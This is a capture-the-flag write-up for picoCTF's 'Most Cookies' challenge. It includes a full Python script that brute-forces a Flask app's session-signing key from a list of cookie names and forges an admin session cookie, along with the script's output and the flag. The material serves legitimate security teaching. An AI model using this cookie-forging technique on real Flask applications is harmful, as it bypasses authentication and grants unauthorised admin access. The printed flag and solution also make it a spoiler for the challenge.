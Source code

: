 # Most Cookies

## Method

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

where we are then provided with a server.py and a website.

**hint:** is how secure is a flask cookie.

A Flask cookie is a small piece of data stored on the user's browser, which the Flask web framework can use to remember information across different requests. 
For example, Flask can set a cookie to keep a user logged in or remember their preferences as they navigate a website. 
Cookies in Flask are easy to set up with response.set_cookie and can also be securely signed to prevent tampering by using the SECRET_KEY.

Normally flask cookies are very hard to break as they have a secret_key luckily with the server.py they gave us the creation script of these cookies.

This Flask app uses cookies and sessions to implement a simple authentication-like mechanism. It works as follows:

1. **Cookie Names**: A list of valid "cookie names" is defined, and one is chosen as a secret key for signing the session cookies.
2. **Setting Cookies**: The app sets a session cookie (`very_auth`) to track user input, initially set to ``"blank"``.
3. **User Input**: Users enter a "cookie name" on `/search`. If the name is valid, it saves to ``session["very_auth"]`` and redirects to ``/display``.
4. **Flag Display**: On ``/display``, if ``very_auth`` matches ``"admin"``, a special "flag" is shown. For other valid names, a message is shown but without the flag.

The app uses Flask cookies to store and verify the "cookie name" across pages.

so quite literally we need to make a admin cookie that allows us to authenticate this.

To this we first need to find what secret_key was used by bruteforcing and comparing each option to the current session cookie we have.
The cookie's secret key will be one of the following 

```python
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]
```
Luckily we can use The flask_cookie function that can encode or decode flask cookies (That i found online) is defined to handle the encoding and decoding of cookies. 
It takes a secret_key, the cookie_data (which is an arr element of cookie_str), and the operation (either "encode" or "decode").

Using this function we can decode the cookie str I have by comparing it to all possible_keys.
Once we have the secret_key that made the session key we currently have we can generate an admin cookie.

We can first grab our current cookie string by using an extension called Cookie-Editor

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer

# Cookie names list from the server application
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]

# cookie string obtained from the website
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZyPFrQ.49hTipCsK3vGMPd_AyZtVXdfy9w"

# Function to encode/decode Flask cookies
def flask_cookie(secret_key, cookie_data, operation="decode"):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

    try:
        if operation == "decode":
            return s.loads(cookie_data)
        elif operation == "encode":
            return s.dumps(cookie_data)
    except BadTimeSignature:
        return None

# Step 1: Brute force the secret key
def brute_force_secret_key(cookie_str, possible_keys):
    for key in possible_keys:
        decoded = flask_cookie(key, cookie_str, "decode")
        if decoded:
            print(f"Found Secret Key: {key}")
            print(f"Decoded Cookie Data: {decoded}")
            return key
    print("Secret key not found in provided list.")
    return None

# Step 2: Generate an admin cookie
def generate_admin_cookie(secret_key):
    admin_cookie = {"very_auth": "admin"}
    encoded_cookie = flask_cookie(secret_key, admin_cookie, "encode")
    return encoded_cookie

def main():
    print("Brute-forcing the secret key...")
    secret_key = brute_force_secret_key(cookie_str, possible_keys)

    if not secret_key:
        print("Failed to find the correct secret key.")
        return
    
    print("\nGenerating admin-level cookie...")
    admin_cookie = generate_admin_cookie(secret_key)

    if admin_cookie:
        print(f"Admin Cookie: {admin_cookie}")
    else:
        print("Failed to encode the admin cookie.")

if __name__ == "__main__":
    main()

```

My output when running 

```bash
Brute-forcing the secret key...
Found Secret Key: peanut butter
Decoded Cookie Data: {'very_auth': 'snickerdoodle'}

Generating admin-level cookie...
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyPFuQ.3-eOMHR1Wbjmxy8MhPP34iazGUA
```

Once we have the admin cookie we can then change our current cookie to the admin one using a cookie-editor extension and refresh the website to then see the flag :D

## Flag 

> picoCTF{pwn_4ll_th3_cook1E5_478da04c}
